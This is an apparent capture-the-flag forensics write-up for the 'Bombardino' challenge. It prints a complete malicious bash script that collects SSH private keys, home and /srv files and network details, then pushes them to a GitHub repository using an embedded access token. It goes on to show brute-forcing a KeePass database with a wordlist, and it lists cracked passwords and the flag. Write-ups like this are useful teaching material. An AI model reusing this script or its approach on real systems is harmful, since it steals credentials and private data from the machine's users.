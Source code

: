 Hi, here is a writeup about the Bombardino Forensics chall, 

So downloading the dist we get a linux file system.

![alt text](image-8.png)
The challenge desc said something about a file named  `scriptiono`, so locating it with locate tool will reveal its path, 
![alt text](image.png)

`/home/sn4keey3s/Downloads/INPT-CTF/usr/lib/tools/Bombardino_scriptino.sh` content :

```bash
#!/bin/bash

TEMP_DIR=$(mktemp -d)
cd "$TEMP_DIR"

mkdir $TEMP_DIR/ssh-exfil

	rsync -a --prune-empty-dirs --include '*/' --include 'id_*' --include 'known_hosts' --exclude '*' /home ./ssh-exfil


	for i in $(find . -name ".ssh" -type d)
		do
			cd $i
			cd ./..
			mv .ssh ssh
			cd ./..
			cd ./..
	done

cd $TEMP_DIR
tar cfv $TEMP_DIR/ssh-exfil.tar $TEMP_DIR/ssh-exfil/

touch ./work.log

{
	echo "Starting data collection for exfiltration..."
	
	echo ""
	
	fqn=$(host -TtA $(hostname -s)|grep "has address"|awk '{print $1}') ; \
	if [[ "${fqn}" == "" ]] ; then fqn=$(hostname -s) ; fi ; \
	echo "${fqn}"

	whoami

	ip link && ip neigh && ip route && ip rule && ip maddress && ip address

} 2>&1 | tee -a ./work.log

cd $TEMP_DIR
echo $(pwd)
git init
git config --global user.email "jantofixsamaqlo@gmail.com"
git config --global user.name "jantofix12"


BRANCH_NAME="exfil-$(date +%s)"
git checkout -b "$BRANCH_NAME"


mkdir $TEMP_DIR/srv_files


cp -r /srv/* $TEMP_DIR/srv_files
cp -r /home/* $TEMP_DIR/srv_files

tar cfv $TEMP_DIR/srv_files.tar $TEMP_DIR/srv_files/
git add ssh-exfil.tar work.log srv_files.tar


git commit -m "Exfiltrated data from $(hostname) at $(date)"

git remote add origin https://jantofix12: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@github.com/jantofix12/samaqlino_forensicino_bombardini.git

git push -u origin "$BRANCH_NAME"

cd - > /dev/null
rm -rf "$TEMP_DIR"


exit

```

This script is malicious in nature, it performs data exfiltration and uploads sensitive files to a remote GitHub repository. `github.com/jantofix12/samaqlino_forensicino_bombardini.git`

Lets clone it, 

![alt text](image-1.png)

as we see this commit is about a simple website that is not uploaded by the malware( some fishy things by `@samaqlo` bach y9olabna ),
in the malware src code, we see that the each commit it's in a branch named after the timestamp of it , `BRANCH_NAME="exfil-$(date +%s)"`, so we can get the old commit by the malware to check the uploaded files.

![alt text](image-2.png)

Ohh, a lot of interesting branches, after searching a bit in the branches, you'll get this interesting one `exfil-1744466130`. use checkout to jumt to it.

![alt text](image-3.png)

So we found the `srv_files.tar` exfiltrated by the malware, untar it we have some serious files like `secret.zip` that contains the flag, but it is locked and a .kdbx file which is a pass-protected database for KeePass Manager that stores protected passwords. so the idea is easy, we should crack the db to get the passwords to unzip the flag from `secret.zip`.

So how to crack this shit, simply some osint on tools for cracking KeePass, i found this one :
![alt text](image-4.png)

but this is where my nightmare begins, the script doesn't work on `pop os` or `ubuntu`, only works on `kali linux`, but i think the prob is with the dependency that the cracking process is rellying on which is `keepassxc`. it might have diff internal implementations or diff other dependencies on the diff OSs, that's what i think,

So after using the command `./keepass4brute/keepass4brute.sh secret_vault.kdbx rockyou.txt` on my collegue's KALI machine, cracked it : `pass = iloveyou1`

now lets open the db with this password, 

![alt text](image-5.png)

And boooom.

![alt text](image-6.png)

you found 4 passwords, try each to open the zip file,

![alt text](image-7.png)

Pass = `ArvmZbUrXzqt3dr`

Flag = `IDEH{bombardino_scriptino_left_no_log_in_the_loggino}`

Thanks for this chall, it was good, but i think the Kali Machine prb should be mentioned.
